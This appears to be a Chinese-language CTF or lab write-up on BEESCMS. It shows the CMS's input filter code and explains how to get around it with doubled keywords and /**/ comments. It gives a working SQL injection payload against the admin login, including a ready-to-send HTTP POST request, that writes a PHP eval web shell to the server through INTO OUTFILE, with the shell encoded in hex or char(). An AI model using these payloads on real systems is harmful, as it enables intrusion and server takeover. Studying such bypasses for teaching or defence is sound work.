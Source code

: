 ```
function fl_value($str){
    if(empty($str)){return;}
    return preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/i','',$str);
}
define('INC_BEES','B'.'EE'.'SCMS');
function fl_html($str){
    return htmlspecialchars($str);
}
function f1_vvv($str){
    if(empty($str)){return;}
    if(preg_match("/\ /i", $str)){
        exit('Go away,bad hacker!!');
    }
    preg_replace('/0x/i','',$str);
    return $str;
} 
```

过滤了空格，倒是把 /* 过滤去掉了，另外把一些关键词过滤为空了，双写绕过就完事了。

根据代码里登录的 SQL 语句【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】

```
$rel=$GLOBALS['mysql']->fetch_asc("select id,admin_name,admin_password,admin_purview,is_disable from ".DB_PRE."admin where admin_name='".$user."' limit 0,1"); 
```

构造 SQL

```
# select xxx into outfile xxx
# <?php eval($_REQUEST['m']);?>

admin'/**/uni union on/**/seselectlect/**/null,null,null,null,0x3c3f706870206576616c28245f524551554553545b276d275d293b3f3e/**/in in to/**/outoutfilefile/**/'/var/www/html/upload/miao.php'# 
```

（咱也不知道为啥 0x 没被过滤为空，双写 0x 发现并没有被删除反而 SQL 执行报错了

Payload:

```
POST /admin/login.php?action=ck_login HTTP/1.1

user=admin%27%2F%2A%2A%2Funi%20union%20on%2F%2A%2A%2Fseselectlect%2F%2A%2A%2Fnull%2Cnull%2Cnull%2Cnull%2C0x3c3f706870206576616c28245f524551554553545b276d275d293b3f3e%2F%2A%2A%2Fin%20in%20to%2F%2A%2A%2Foutoutfilefile%2F%2A%2A%2F%27%2Fvar%2Fwww%2Fhtml%2Fupload%2Fmiao%2Ephp%27%23&password=miao&code=&submit=true&submit.x=43&submit.y=24 
```

当然也可以用 char 函数写入木马。

```
admin'/**/uni union on/**/seselectlect/**/null,null,null,null,char(60,63,112,104,112,32,101,118,97,108,40,36,95,82,69,81,85,69,83,84,91,39,109,39,93,41,59,63,62)/**/in in to/**/outoutfilefile/**/'/var/www/html/upload/miao.php'# 
```
